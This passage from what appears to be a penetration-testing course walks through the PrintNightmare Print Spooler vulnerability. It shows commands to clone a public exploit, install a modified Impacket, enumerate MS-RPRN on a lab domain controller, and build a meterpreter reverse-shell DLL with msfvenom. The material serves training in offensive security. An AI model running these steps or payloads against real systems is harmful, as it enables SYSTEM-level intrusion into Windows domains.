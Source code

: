 ### Windows Defender Quarantine Log
![[defenderLog.webp]]

If opsec or being "quiet" is a consideration during an assessment, we would most likely want to avoid a tool like smbexec.py.

## PrintNightmare

`PrintNightmare` is the nickname given to two vulnerabilities ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) found in the [Print Spooler service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc) that runs on all Windows operating systems. Many exploits have been written based on these vulnerabilities that allow for privilege escalation and remote code execution. Let's practice with one exploit that can allow us to gain a SYSTEM shell session on a Domain Controller running on a Windows Server 2019 host.

Before conducting this attack, we must retrieve the exploit we will use. In this case, we will be using [cube0x0's](https://twitter.com/cube0x0?lang=en) exploit. We can use Git to clone it to our attack host:

### Cloning the Exploit
```shell-session
$ git clone https://github.com/cube0x0/CVE-2021-1675.git
```

For this exploit to work successfully, we will need to use cube0x0's version of Impacket. We may need to uninstall the version of Impacket on our attack host and install cube0x0's.

### Install cube0x0's Version of Impacket
```shell-session
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

We can use `rpcdump.py` to see if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.

### Enumerating for MS-RPRN
```shell-session
$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 
```

After confirming this, we can proceed with attempting to use the exploit. We can begin by crafting a DLL payload using `msfvenom`.

### Generating a DLL Payload
```shell-session
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```
